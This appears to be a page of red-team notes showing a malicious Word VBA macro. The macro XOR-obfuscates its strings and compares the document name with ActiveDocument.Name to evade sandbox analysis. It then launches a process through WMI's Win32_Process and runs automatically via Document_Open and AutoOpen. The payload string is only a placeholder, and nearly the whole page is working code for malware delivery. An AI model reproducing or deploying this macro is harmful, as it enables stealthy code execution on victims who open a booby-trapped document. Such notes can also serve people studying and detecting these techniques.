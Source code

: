 Obfuscate it using xor encryption and add heuristics detection check based on comparing the `.doc` name with current window name via `ActiveDocument.Name`:

{% code title="XORStageWMI.vba" %}
```vba
Function Pears(beets)
  Pears = Chr(beets Xor Asc("a"))
End Function

Function Strawberries(grapes)
  Strawberries = Left(grapes, 3)
End Function

Function Almonds(jelly)
  Almonds = Right(jelly, Len(jelly) - 3)
End Function

Function Nuts(milk)
  Do
    Oatmilk = Oatmilk + Pears(Strawberries(milk))
    milk = Almonds(milk)
  Loop While Len(milk) > 0
  Nuts = Oatmilk
End Function

Function Evil()
  If ActiveDocument.Name <> Nuts("016022004079005014002") Then
    Exit Function
  End If
  Dim Apples As String
  Dim Water As String
  Apples = "31.." _
& "33.." _
& "33.." _
& "37.."
  Water = Nuts(Apples)
  GetObject(Nuts("022008015012006012021018091")).Get(Nuts("054008015082083062049019014002004018018")).Create Water, Tea, Coffee, Napkin
End Function

Sub Document_Open()
  Evil
End Sub

Sub AutoOpen()
  Evil
End Sub
```
{% endcode %}




## PowerShell
